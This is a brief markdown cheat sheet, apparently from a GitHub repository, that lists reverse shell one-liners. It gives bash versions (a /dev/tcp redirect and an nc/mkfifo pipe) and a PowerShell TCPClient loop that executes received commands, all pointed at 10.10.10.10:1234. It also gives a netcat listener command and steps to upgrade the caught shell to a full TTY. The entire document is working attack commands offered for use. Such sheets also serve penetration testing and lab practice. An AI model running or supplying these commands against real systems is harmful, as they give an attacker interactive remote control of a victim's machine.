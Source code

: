 # Command for connecting to reverse shell

## Using bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

## Using powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## Listen using netcat
```zsh
nc IP -lvnp PORT
```

## Upgrade TTY
Upgrade TTY to move cursor

```zsh
python -c 'import pty; pty.spawn("/bin/bash")'
<CTRL + Z>

stty raw -echo

fg
```